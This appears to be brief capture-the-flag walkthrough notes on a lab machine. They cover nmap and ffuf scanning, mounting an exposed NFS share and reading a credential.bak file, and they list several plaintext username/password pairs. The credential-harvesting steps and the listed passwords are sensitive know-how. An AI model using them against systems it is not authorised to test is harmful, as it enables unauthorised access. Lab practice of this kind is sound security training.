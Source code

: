 start with nmap

ffuf:

/cat
/login

nfs is open.

showmount -e $ip

we can mount /var/nfs/general folder.

lests mount it by 

sudo mount -t nfs $ip:/var/nfs/general /tmp/mnt/ -o nolock 


got credential.bak

```
paradoxial.test
ShibaPretzel79


```

ues cred to login .

szymex ; cherrycoke
tux : tuxykitty
varg: slowroastpork